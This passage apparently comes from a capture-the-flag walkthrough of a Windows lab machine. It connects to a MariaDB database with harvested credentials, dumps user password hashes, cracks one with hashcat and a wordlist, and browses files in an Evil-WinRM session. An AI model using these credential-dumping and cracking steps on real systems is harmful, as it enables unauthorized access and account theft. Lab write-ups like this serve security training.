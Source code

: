 ```powershell
PS C:\xampp\mysql\bin> ./mysql.exe --host=localhost --user=certificate_webapp_user --password="cert!f!c@teDBPWD" --database=Certificate_WEBAPP_DB
Welcome to the MariaDB monitor.  Commands end with ; or \g. 
Your MariaDB connection id is 68
Server version: 10.4.32-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [Certificate_WEBAPP_DB]>
```

We can find a users table and their hashes.
```
MariaDB [Certificate_WEBAPP_DB]> select username,password from users; 
 Lorra.AAA | $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG 
 Sara1200  | $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK 
 Johney    | $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq 
 havokww   | $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti 
 stev      | $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2 
 sara.b    | $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6 
 w1ld      | $2y$04$Ub5vcDFaT83OqtqRMx4y.OlvhZqk95a6T6JThL4H3kRoSzIAOe6Dy 
```

Let's try and crack these passwords with `hashcat`.
```bash
hashcat -a 0 passwords.pem -m 3200 /usr/share/wordlists/rockyou.txt --username
```

After a while we get a password cracked!
```
sara.b:$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Blink182
```

We get the following credentials: `sara.b`:`Blink182`

Looking around we can find a `pcap` file.
```powershell
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> dir


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap

```

Let's take a look at `Description.txt`
```
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
```

